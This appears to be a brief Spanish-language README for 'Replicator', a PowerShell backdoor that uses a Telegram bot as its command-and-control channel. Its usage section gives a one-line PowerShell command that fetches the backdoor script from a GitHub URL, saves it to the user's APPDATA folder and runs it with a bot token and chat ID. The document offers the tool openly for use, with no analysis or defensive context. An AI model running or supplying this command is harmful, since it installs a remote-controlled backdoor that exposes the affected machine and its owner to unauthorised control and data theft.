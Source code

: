 # Replicator Telegram Backdoor Toolkit
Replicator es una puerta trasera basada en Powershell en forma de bot de mensajería instantánea que utiliza la infraestructura y la API de bot rica en funciones proporcionada por Telegram, reutilizando ligeramente su plataforma de comunicación para que actúe como un C&C.

# Uso
powershell "(iwr 'https://raw.githubusercontent.com/josprou/Replicator/main/Replicator.ps1').content > $env:APPDATA\aaa.ps1 ; & $env:APPDATA\aaa.ps1 'API_TOKEN' 'CHAT_ID' "
